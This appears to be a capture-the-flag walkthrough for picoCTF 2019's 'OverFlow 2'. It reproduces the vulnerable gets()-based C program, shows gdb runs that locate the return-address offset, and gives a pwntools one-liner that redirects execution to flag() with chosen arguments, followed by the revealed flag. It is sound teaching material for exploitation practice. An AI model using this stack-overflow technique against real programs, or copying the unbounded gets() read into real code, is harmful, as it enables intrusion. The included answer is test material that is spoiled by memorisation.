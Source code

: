 # OverFlow 2
250 points

### Description
*"Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc on the shell server. Source."*

### Solution
For this problem, I'm going to assume you know how function arguments, return address, etc., are layed out in the stack. If you aren't familiar with this, check out my walkthrough for [OverFlow 1](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%234%20-%20OverFlow%201.md). Here's the source code for the program associated with this problem:
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

This problem is very similar to OverFlow 1, but this time the `flag` function has arguments. Remember, the stack for a function call looks like this:

![C generic function call stack layout.png](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/raw/C_generic_function_call_stack_layout.png)

Keep in mind, the "top" of the stack is the bottom of this picture. So, we will be able to overwrite the return address and the function arguments. We're going to use a trick with gdb to quickly figure out how many characters we need in order to overwrite the return address. We know we'll need at least 176 characters, since that's the size of `buf`. From there, we can just add characters in increments of 4 until we start overwriting the return address. I've divided these different attempts to make it more readable.
```bash
$ gdb vuln
(gdb) run <<< $(python -c "print('a'*(176+4))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+4))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
[Inferior 1 (process 229061) exited normally]
=================================================================================================================================================================================================================
(gdb) run <<< $(python -c "print('a'*(176+8))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+8))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x0804872a in main ()
=================================================================================================================================================================================================================
(gdb) run <<< $(python -c "print('a'*(176+12))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+12))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGILL, Illegal instruction.
0x08048700 in main ()
=================================================================================================================================================================================================================
(gdb) run <<< $(python -c "print('a'*(176+16))")
Starting program: /problems/overflow-2_0_f4d7b52433d7aa96e72a63fdd5dcc9cc/vuln <<< $(python -c "print('a'*(176+16))")
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

There we go. We started overwriting the return address exactly after the 12th extra character. So, we need 12 characters between `buf` and the return address. Let's get that return address:
```bash
(gdb) x flag
0x80485e6 <flag>:       0x53e58955
```

When `flag` is called, the process will expect a return address to be on the top of the stack, above (or below, depending how you look at it) the parameters for `flag`. Since this return won't be used until after the flag is printed out, we can just fill it with bogus characters.

Finally we have to put our parameters. We will use the `p32` function from [pwntools](http://docs.pwntools.com/en/latest/) to convert the parameters and the return address to the little-endian format that we need.
```
$ python -c "from pwn import *; print('a'*(176+12) + p32(0x080485e6) + 'aaaa' + p32(0xDEADBEEF) + p32(0xC0DED00D))" | ./vuln
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa���aaaaaaaaaaaaaaaaaaa�aaaaﾭ�
```

This will give you the flag!

<details>
  <summary>Flag:</summary>
  picoCTF{arg5_and_r3turn5e919413c}
</details>

[Next Problem]()

[Return to Binary Exploitation](https://github.com/sdvickers98/picoCTF-2019-Walkthrough/blob/master/binary_exploitation/%230%20-%20Binary%20Exploitation%20Homepage.md)

[Return to Homepage](https://github.com/sdvickers98/picoCTF-2019-Walkthrough)
